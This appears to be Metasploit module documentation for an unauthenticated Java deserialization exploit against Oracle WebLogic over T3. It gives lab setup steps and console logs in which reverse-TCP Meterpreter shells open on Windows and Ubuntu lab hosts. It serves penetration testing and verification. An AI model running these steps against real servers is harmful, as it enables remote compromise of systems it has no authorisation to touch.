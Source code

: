 ## Vulnerable Application

  There exists a Java object deserialization vulnerability
  in multiple versions of WebLogic.

  Unauthenticated remote code execution can be achieved
  by sending a serialized `BadAttributeValueExpException` object
  over the T3 protocol to vulnerable WebLogic servers.

  This module has been tested against versions `v12.1.3.0.0`,
  `v12.2.1.3.0`, and `v12.2.1.4.0`.

  WebLogic versions can be downloaded from [here](https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html).
  
### Installation

  Some version of Java 8 jdk is required to be installed on the server.
  This module has been tested successfully using jdk8u202 and [jdk8u251](https://www.oracle.com/java/technologies/javase-jdk8-downloads.html).
  
  Installation instructions for WebLogic can be found [here](https://docs.oracle.com/cd/E24705_01/doc.91/e21052/appx_install_wls.htm#EOPWC376).
  
  On step 10 of the installation instructions keep the
  `Run Quickstart` box checked and click `done`. A new window
  should pop up. Select `Create a new domain` -> `next`.
  Ensure `Basic WebLogic Server Domain` is selected and click `next`.
  Create credentials and select `next`. Domain mode can be either
  `Production` or `Development`, click `next`. Click `next` again
  and select `Create`. Click `next` a couple more times, then click
  `finish`.

  To start WebLogic, execute either the `startWebLogic` script in
  `Oracle/Middleware/Oracle_Home/user_projects/domains/base_domain/`.

## Verification Steps

- [ ] Install the application
- [ ] Start msfconsole
- [ ] Do: ```use exploit/multi/misc/weblogic_deserialize_badattrval```
- [ ] Do: ```set RHOSTS <ip>```
- [ ] Do: ```run```
- [ ] You should get a meterpreter session.

## Scenarios
### WebLogic `v12.2.1.4` on Windows 10

  ```
  msf5 > use exploit/multi/misc/weblogic_deserialize_badattrval
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.185
  rhosts => 172.16.215.185
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set lhost 172.16.215.1
  lhost => 172.16.215.1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444
  [*] 172.16.215.185:7001 - WebLogic version detected: 12.2.1.4.0
  [*] 172.16.215.185:7001 - Sending handshake...
  [*] 172.16.215.185:7001 - Formatting payload...
  [*] 172.16.215.185:7001 - Sending object...
  [*] Sending stage (176195 bytes) to 172.16.215.185
  [*] Meterpreter session 1 opened (172.16.215.1:4444 -> 172.16.215.185:50795) at 2020-05-15 09:37:45 -0500

  meterpreter > getuid
  Server username: DESKTOP-AQT4EG1\space
  meterpreter > sysinfo
  Computer        : DESKTOP-AQT4EG1
  OS              : Windows 10 (10.0 Build 18362).
  Architecture    : x64
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 4
  Meterpreter     : x86/windows
  ```

### WebLogic `v12.1.3.0.0` on Linux
  
  ```
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set target 1
  target => 1
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set payload linux/x64/meterpreter/reverse_tcp
  payload => linux/x64/meterpreter/reverse_tcp
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > set rhosts 172.16.215.196
  rhosts => 172.16.215.196
  msf5 exploit(multi/misc/weblogic_deserialize_badattrval) > run

  [*] Started reverse TCP handler on 172.16.215.1:4444 
  [*] 172.16.215.196:7001 - WebLogic version detected: 12.1.3.0.0
  [*] 172.16.215.196:7001 - Sending handshake...
  [*] 172.16.215.196:7001 - Formatting payload...
  [*] 172.16.215.196:7001 - Sending object...
  [*] Sending stage (3012516 bytes) to 172.16.215.196
  [*] Meterpreter session 6 opened (172.16.215.1:4444 -> 172.16.215.196:60672) at 2020-05-15 09:41:17 -0500
  [*] 172.16.215.196:7001 - Command Stager progress - 101.36% done (820/809 bytes)

  meterpreter > getuid
  Server username: no-user @ ubuntu (uid=1000, gid=1000, euid=1000, egid=1000)
  meterpreter > sysinfo
  Computer     : 172.16.215.196
  OS           : Ubuntu 18.04 (Linux 4.18.0-15-generic)
  Architecture : x64
  BuildTuple   : x86_64-linux-musl
  Meterpreter  : x64/linux
  ```
